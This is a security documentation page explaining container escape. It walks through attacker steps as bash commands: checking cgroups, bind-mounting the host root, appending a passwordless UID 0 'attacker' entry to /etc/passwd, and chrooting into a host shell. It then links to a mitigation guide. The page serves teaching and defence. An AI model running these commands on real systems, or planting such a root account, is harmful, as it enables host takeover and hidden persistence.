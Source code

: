 ```yaml
---
sidebar_position: 7
title: "Container Escape"
description: "Understanding container escape vulnerabilities and how attackers break out of containers to compromise the host system."
---
```


# Container Escape

A **container escape** occurs when an attacker exploits vulnerabilities in a containerized environment to **break out of the container** and gain access to the **underlying host system**. This can lead to **privilege escalation, data exfiltration, and full cluster compromise**.

---

## Exploitation Steps: Breaking Out of a Container

An attacker gains access to a misconfigured or vulnerable container and attempts to escape to the host.

### Step 1: Identify the Environment

The attacker checks if the container is running as **privileged** or has access to the host filesystem:

```bash
cat /proc/1/cgroup
ls -la /root
```

If the output reveals unrestricted access, the attacker proceeds to escape.

### Step 2: Mount the Host Filesystem

The attacker attempts to mount the host filesystem inside the container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
```

### Step 3: Escalate Privileges

If the container runs as root and `/mnt/host` is accessible, the attacker can create a new root user on the host:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Step 4: Gain a Host Shell

The attacker spawns a shell on the host system:

```bash
chroot /mnt/host /bin/bash
```

### Result

The attacker has escaped the container and now has **full access to the host**, enabling them to modify files, execute commands, and potentially compromise the entire cluster.

---

## Mitigation Steps

To prevent container escape vulnerabilities, follow the security best practices outlined in:

➡ **[Preventing Container Escape](/docs/best_practices/container_escape_mitigation)**

This guide covers techniques such as **disabling privileged containers, restricting host filesystem access, enforcing least privilege principles, and applying security policies** to mitigate container escape risks.
